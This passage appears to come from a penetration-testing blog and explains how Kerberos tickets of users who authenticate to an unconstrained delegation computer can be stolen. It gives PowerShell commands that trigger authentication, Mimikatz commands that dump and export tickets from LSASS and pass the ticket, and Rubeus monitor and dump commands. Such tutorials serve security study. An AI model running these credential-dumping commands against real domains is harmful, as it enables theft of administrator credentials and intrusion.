 ## Manual Authentication

In addition to coercing authentication, it's essential to understand that unconstrained delegation computers can act as a valuable resource for obtaining domain credentials. When a user authenticates to the unconstrained delegation computer, their Kerberos ticket is also stored in the memory, further expanding the pool of credentials.

For instance, when the Administrator logs in over a PS-Remote session or mounts a network share on the unconstrained delegation computer, their ticket is saved in the memory, making unconstrained delegation a prime target for acquiring valuable domain credentials.

Here's an example:
```
Enter-PSSession deleg # Initiating a PowerShell Remote Session
```
Or:
```
Invoke-WebRequest http://deleg.democorp.com -UseDefaultCredentials -UseBasicParsing # Authenticating over HTTP
```

These actions result in the Administrator's Kerberos ticket being stored in the memory of the unconstrained delegation computer, which can then be stolen.

## Dumping Kerberos Tickets

Once we have successfully acquired authentication and accessed the LSASS memory of the target system, we can proceed to list Kerberos tickets.

You can use Mimikatz to list Kerberos tickets from the LSASS memory. 

```
sekurlsa::tickets
kerberos::list
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/21-2.png)

We can export the tickets and download them for further exploitation and import them into session right away.

```
sekurlsa::tickets /export
kerberos::ptt <file>
```

Rubeus is another tool that can aid us in extracting the tickets.

```
Rubeus.exe monitor /interval:1 /nowrap # Monitor and extract Kerberos tickets at regular intervals
Rubeus.exe dump /nowrap
```

The ticket can be copied and pasted.

![](http://news.baycode.eu/wp-content/uploads/2023/11/22-2.png)
